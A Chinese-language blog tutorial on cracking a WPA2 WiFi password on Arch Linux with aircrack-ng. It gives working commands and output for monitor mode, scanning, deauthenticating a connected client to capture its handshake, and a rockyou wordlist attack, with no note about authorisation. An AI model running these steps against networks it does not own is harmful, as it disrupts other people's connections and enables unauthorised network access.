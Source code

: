 ```yaml
---
title: Archlinux利用aircrack-ng暴力破解wifi
date: 2023-04-29 22:02:11
tags:
---
```

#### 说明
* 本机为archlinux笔记本
* 网卡名wlp1s0 
* "wlp1s0"和"wlan0"都是Linux系统中用于表示无线网络接口的名称
* curl -L参数会让 HTTP 请求跟随服务器的重定向。curl 默认不跟随重定向。
* 大致步骤:网卡设为监听模式,扫描附近WIFI对其发起攻击，获取数据包,对包进行暴力破解
#### 准备
1. 无线网卡(笔记本自带||淘宝购买)
2. WIFI字典`curl -L -o rockyou.txt https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt`
#### 安装
* sudo pacman -S aircrack-ng
#### 实战
##### 1. 查看网卡  
```
iwconfig
```
```
lo        no wireless extensions.
wlp1s0    IEEE 802.11  ESSID:"i-wxxy"
          Mode:Managed  Frequency:5.805 GHz  Access Point: 98:35:ED:40:BE:10
          Bit Rate=192.7 Mb/s   Tx-Power=20 dBm
          Retry short limit:7   RTS thr:off   Fragment thr:off
          Power Management:on
          Link Quality=65/70  Signal level=-45 dBm
          Rx invalid nwid:0  Rx invalid crypt:0  Rx invalid frag:0
          Tx excessive retries:0  Invalid misc:145   Missed beacon:0
docker0   no wireless extensions.
br-a74bdffadf65  no wireless extensions.
vethbbcf498  no wireless extensions.
```
##### 2. 网卡设为监听（monitor）模式 
```
sudo airmon-ng start wlp1s0
```
```
Found 2 processes that could cause trouble.
Kill them using 'airmon-ng check kill' before putting
the card in monitor mode, they will interfere by changing channels
and sometimes putting the interface back in managed mode

    PID Name
    492 NetworkManager
    544 wpa_supplicant

PHY	Interface	Driver		Chipset

phy0	wlp1s0		rtw_8822ce	Realtek Semiconductor Co., Ltd. RTL8822CE 802.11ac PCIe Wireless Network Adapter
		(monitor mode enabled)
```
* 确保你是断网(上面进程我没杀掉，确保自己没连网就可以)
* `iwconfig`mode为`monitor`
```
lo        no wireless extensions.

wlp1s0    IEEE 802.11  Mode:Monitor  Frequency:2.417 GHz  Tx-Power=20 dBm   
          Retry short limit:7   RTS thr:off   Fragment thr:off
          Power Management:on
```
##### 3. 扫描附近的wifi
```
sudo airodump-ng wlp1s0
```
我的结果，我需要破解的是ESSID为ScumTB
```
CH  3 ][ Elapsed: 6 s ][ 2023-04-29 22:58 

 BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

 9E:7F:81:09:32:AC   -1        0        3    0   1   -1   WPA              <length:  0>                                                                       
 04:BD:70:53:07:60  -83        4        0    0   6  360   OPN              i-wxxy                                                                             
 3C:CD:57:9A:FE:7D  -78        3        0    0   5  130   WPA2 CCMP   PSK  ZNMS                                                                               
 00:1E:73:6E:64:5C  -96        2        0    0  13  270   WPA2 CCMP   PSK  SR5D_645c                                                                          
 C2:B1:76:EF:A6:20  -76        4        0    0   6  360   WPA2 CCMP   PSK  iQOO Neo5                                                                          
 30:C5:0F:47:FB:20  -87        2        0    0   6  360   OPN              i-wxxy                                                                             
 0A:54:7B:58:90:38  -31       11        0    0   6  130   WPA2 CCMP   PSK  ScumTB                                                                             
 98:35:ED:40:BE:00  -50        0        0    0   1  130   OPN              i-wxxy                                                                             
 3C:67:A5:00:2B:AC  -86        4        0    0   1  270   WPA2 CCMP   PSK  MIFI_2BAC                                                                          
 3C:CD:57:9A:FF:87  -93        2        0    0   1  130   WPA2 CCMP   PSK  ZNMS                                                                               
 3C:CD:57:AE:BD:60  -88        6        0    0  11  130   WPA2 CCMP   PSK  ZNMS                                                                               
 98:35:ED:40:B9:00  -91        5        0    0  11  130   OPN              i-wxxy                                                                             
 98:35:ED:40:C9:E0  -58        9        0    0  11  130   OPN              i-wxxy 
```

* 如果是wlan网卡设备名会变成`wlan0mon`用`wlan0mon`替代`wlp1s0`
* 记录要破解的wifi的ESSID BSSID CH
##### 4. 抓包准备攻击
尝试抓取
```
sudo airodump-ng wlp1s0 --bssid 0A:54:7B:58:90:38 -c 6
```
结果如下
```
 CH  6 ][ Elapsed: 1 min ][ 2023-04-29 23:04 
 BSSID              PWR RXQ  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID
 0A:54:7B:58:90:38  -38 100      801       16    0   6  130   WPA2 CCMP   PSK  ScumTB                                                                         
 BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes
 0A:54:7B:58:90:38  A2:D7:C7:F2:4D:3F  -35   24e- 6      0       23      
```
记录BSSID：wifi ;  STATION:设备 
```
0A:54:7B:58:90:38  A2:D7:C7:F2:4D:3F
```
开始抓包并记录
```
sudo airodump-ng wlp1s0 --bssid 0A:54:7B:58:90:38 -c 6 -w ScumTB
```
打开新的终端进行断网攻击
```
sudo aireplay-ng wlp1s0 -0 10 -a 0A:54:7B:58:90:38 -c A2:D7:C7:F2:4D:3F
```
多试几次，每次结束稍微停留一会，等目标连接wifi成功，这样就抓取到数据
```
CH  6 ][ Elapsed: 18 s ][ 2023-04-29 23:22 ][ WPA handshake: A2:FC:3F:39:3E:E0 
 BSSID              PWR RXQ  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID
 A2:FC:3F:39:3E:E0  -41 100      194      179    0   6  130   WPA2 CCMP   PSK  ScumTB                                                                         
 BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes
 A2:FC:3F:39:3E:E0  A2:D7:C7:F2:4D:3F  -34   24e- 6      0      208  EAPOL  ScumTB      
```
##### 5. 用字典进行暴力破解
```
sudo aircrack-ng ScumTB-01.cap -w ~/Documents/rockyou.txt
```
 .cap是抓取到的数据 -w是下载的字典
```
                               Aircrack-ng 1.7 
      [00:00:00] 26/10303727 keys tested (295.04 k/s) 
      Time left: 9 hours, 42 minutes, 3 seconds                  0.00%
                           KEY FOUND! [ 123456789 ]
      Master Key     : 0C 8D 75 1C B1 BC 0D 2A 76 E9 CC 27 33 43 76 87 
                       B0 D2 8F E5 3D B3 08 1F C0 F4 D6 76 7F 29 D8 51 
      Transient Key  : 29 C0 E1 26 7D CF 97 46 82 A8 9A 2A B4 1F E5 37 
                       33 AE D1 91 4D FB FF C8 62 16 A0 5E AF 99 41 1A 
                       59 1C 27 DD 31 24 38 96 45 27 93 2F 37 69 75 07 
                       7B 04 A4 A4 70 B6 2F 00 89 29 8E 49 91 46 4F 5B 
      EAPOL HMAC     : 57 0B 81 23 6B 4F 52 FA 53 4E 26 20 82 02 B1 15 
```
我的密码简单，很容易破解
#### 注意
* 暴力破解，如果字典没有匹配的密码是不能成功的
* 确保你是断网(网卡为monitor) 
* 目标用户在使用该网络，并在攻击后会尝试连接，否则不能抓取到数据包
#### 参考
> https://github.com/brannondorsey/wifi-cracking

